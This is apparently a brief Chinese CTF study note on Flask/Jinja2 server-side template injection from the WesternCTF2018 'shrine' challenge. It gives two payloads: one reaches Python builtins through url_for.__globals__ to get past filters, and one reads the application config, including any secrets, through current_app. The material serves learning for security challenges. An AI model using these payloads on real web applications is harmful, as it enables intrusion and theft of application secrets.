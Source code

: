 参见 [[[WesternCTF2018]shrine（学习）]]

```python
{{url_for.__globals__['__builtins__']}}
```
这玩意可以获取到各种内置函数，绕过一些变态的过滤

---
```python
{{url_for.__globals__['current_app'].config}}
```
如果`app.config`被覆写了的话就用这个

#Web #flask #SSTI #urlfor #globals #bypass #python 